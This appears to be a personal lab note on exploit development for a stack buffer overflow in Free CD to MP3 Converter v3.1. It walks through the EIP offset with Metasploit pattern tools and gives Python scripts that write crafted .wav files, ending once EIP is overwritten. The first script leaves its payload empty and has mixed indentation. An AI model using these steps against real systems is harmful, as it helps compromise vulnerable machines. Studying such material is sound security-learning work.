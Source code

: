 # Stack Based Buffer Overflow 
##  Exploiting Free CD to MP3 Converter v3.1

> To control EIP we create a unique pattern and use a debugger to see where exactly in the unique pattern it crashes

### EIP Offset

To find a buffer we can use a unique string and send it. That way we can check at exactly what sequence it crashes.

After fuzzing to see the minimum bytes it crashes at is 5000, we can use:  
`msf-pattern_create -l 5000`

Now we can write a py script to generate the bytes into a .wav file:  
```
#create payload as processed by the program, in a buffer overflow exercise is bytes, since it will be loaded into the stack as machine code in bytes 

def eip_offset():
    payload = bytes("","utf-8") 

	with open('pattern.wav', 'wb') as f: #wb=write in bytes
        f.write(payload)

eip_offset()
```

 The value of EIP can be used to calculate the offset which in this case is `31684630`  

To calculate exact match at offset a pattern ofset tool can be used:
`msf-pattern_offset -q 31684630`  

We can now modify our script to have control over EIP
```
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)
```

As you can see EIP has been written with B's (424242)  

![](../../../Assets/Pasted%20image%2020220723010242.jpg) 

